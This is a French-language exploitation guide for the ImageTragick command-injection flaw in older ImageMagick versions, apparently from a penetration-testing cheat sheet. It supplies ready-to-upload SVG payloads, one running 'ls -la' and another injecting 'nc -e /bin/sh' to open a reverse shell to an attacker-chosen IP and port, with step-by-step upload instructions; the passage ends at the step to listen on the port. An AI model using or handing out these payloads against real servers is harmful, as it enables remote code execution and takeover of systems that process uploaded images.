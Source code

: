 **ImageMagick** est un logiciel utilisé pour créer, modifier (redimensionner), convertir ou afficher des fichiers d'images dans un très grand nombre de formats.

ImageMagick possède plusieurs failles, donc une qui permet d'exécuter du code arbitraire à distance : https://imagetragick.com

### Pré-requis

- ImageMagick <= 6.9.3-9 est utilisé par le serveur web

### Exploitation

1. Copier le code suivant, qui permet de lister le répertoire (**ls.svg**):
   
   ```svg
   <?xml version="1.0" standalone="no"?>
   <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
   "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd";>
   <svg width="640px" height="480px" version="1.1" xmlns="http://www.w3.org/2000/svg"; xmlns:xlink="http://www.w3.org/1999/xlink";>
   <image xlink:href="https://example.com/image.jpg"|ls "-la" x="0" y="0" height="640px" width="480px"/>
   </svg>
   ```
   
    Ici on injecte le code `";|ls "-la` pour lister le répertoire.

2. Téléverser ce fichier sur l'application.

Comme l'exploitation se passe au moment du téléversement, l'utilisateur peut ne pas voir pas le résultat des commandes. Mais un **reverse shell** est possible !

1. Copier le code suivant :
   
   ```svg
   <?xml version="1.0" standalone="no"?>
   <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
   "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd";>
   <svg width="640px" height="480px" version="1.1"
   xmlns="http://www.w3.org/2000/svg"; xmlns:xlink=
   "http://www.w3.org/1999/xlink";>
   <image xlink:href="https://example.com/image.jpg"|nc -e /bin/sh IP_ADDRESS "PORT" x="0" y="0" height="640px" width="480px"/>
   </svg>
   ```
   
   LIci, on injecte le code `";|nc -e /bin/sh IP_ADDRESS_HERE "PORT_HERE` pour avoir un reverse shell.

2. Remplacer `IP_ADRESS` et `PORT` dans le code (faire attention aux guillemets présents), puis enregistrer sous forme d'image (**nc.svg**). Par exemple :
   
   ```svg
   <image xlink:href="https://example.com/image.jpg"|nc -e /bin/sh 127.0.0.1 "1234" x="0" y="0" height="640px" width="480px"/>
   ```

3. Écouter votre port :
   